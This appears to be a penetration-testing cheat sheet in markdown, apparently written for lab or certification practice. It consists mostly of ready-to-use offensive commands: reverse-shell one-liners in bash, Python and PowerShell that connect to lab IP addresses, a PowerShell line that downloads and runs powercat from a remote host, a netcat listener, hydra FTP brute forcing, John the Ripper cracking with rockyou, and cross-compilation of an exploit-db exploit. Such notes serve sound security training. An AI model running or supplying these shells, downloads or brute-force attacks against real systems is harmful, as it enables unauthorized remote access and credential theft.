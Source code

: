 | **Reverse shells** | **Description** |
| ---- | ---- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1` | Common reverse shell |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell |
| `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.190/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell` | Powershell reverse shell with PowerCat |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |

| **Brute forcing** | **Description** |
| ---- | ---- |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.222.46` | FTP |

| **Hash cracking** | **Description** |
| ---- | ---- |
| `john offsec.hash -wordlist=/usr/share/wordlists/rockyou.txt` | John The Ripper with wordlist |

Google dork to search exploits (Instead of searchsploit):
```text
phpMyAdmin 4.9.2 site:exploit-db.com
```

#### Windows

Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Cross-platform exploit compiling:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```

If we get errors due to the linker cannot find the winsock library:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```